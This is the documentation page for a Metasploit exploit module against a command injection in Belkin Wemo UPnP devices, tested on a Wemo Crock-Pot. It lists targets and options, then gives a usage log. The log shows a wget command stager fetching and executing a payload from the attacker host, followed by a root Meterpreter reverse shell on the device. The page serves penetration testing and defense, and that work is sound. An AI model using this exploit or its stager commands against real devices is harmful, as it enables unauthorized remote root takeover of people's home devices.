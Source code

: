 ## Introduction

This module exploits a command injection in the Belkin Wemo UPnP API via
the `SmartDevURL` argument to the `SetSmartDevInfo` action.

This module has been tested on a Wemo-enabled Crock-Pot, but other Wemo
devices are known to be affected, albeit on a different `RPORT` (49153).

## Setup

You may buy the device on Amazon at <https://www.amazon.com/dp/B00IPEO02C/>.

## Targets

```
Id  Name
--  ----
0   Unix In-Memory
1   Linux Dropper
```

## Options

**RPORT**

Set this to the Wemo device's UPnP port. In our testing, this was 49152
for Crock-Pot and 49153 for other devices.

## Usage

```
msf5 exploit(linux/upnp/belkin_wemo_upnp_exec) > run

[*] Started reverse TCP handler on 10.22.22.4:4444
[+] Wemo-enabled device detected
[*] Found firmware version: 2.00.6461
[+] Firmware version 2.00.6461 < 2.00.8643
[*] 10.22.22.1:49152 - The target appears to be vulnerable.
[*] Using URL: http://0.0.0.0:8080/CKgRyLqQZtBY6
[*] Local IP: http://[redacted]:8080/CKgRyLqQZtBY6
[*] Generated command stager: ["wget -qO /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P http://10.22.22.4:8080/CKgRyLqQZtBY6", "chmod +x /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P", "/tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P", "rm -f /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P"]
[*] Regenerated command stager: cp /bin/sh /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P;wget -qO /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P http://10.22.22.4:8080/CKgRyLqQZtBY6;/tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P;rm -f /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P
[*] Client 10.22.22.1 (Wget) requested /CKgRyLqQZtBY6
[*] Sending payload to 10.22.22.1 (Wget)
[*] Transmitting intermediate stager...(164 bytes)
[*] Sending stage (1252312 bytes) to 10.22.22.1
[*] Meterpreter session 1 opened (10.22.22.4:4444 -> 10.22.22.1:4607) at 2019-02-12 14:37:37 -0600
[*] Server stopped.

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 10.22.22.1
OS           :  (Linux 2.6.21)
Architecture : mips
BuildTuple   : mipsel-linux-muslsf
Meterpreter  : mipsle/linux
meterpreter >
```

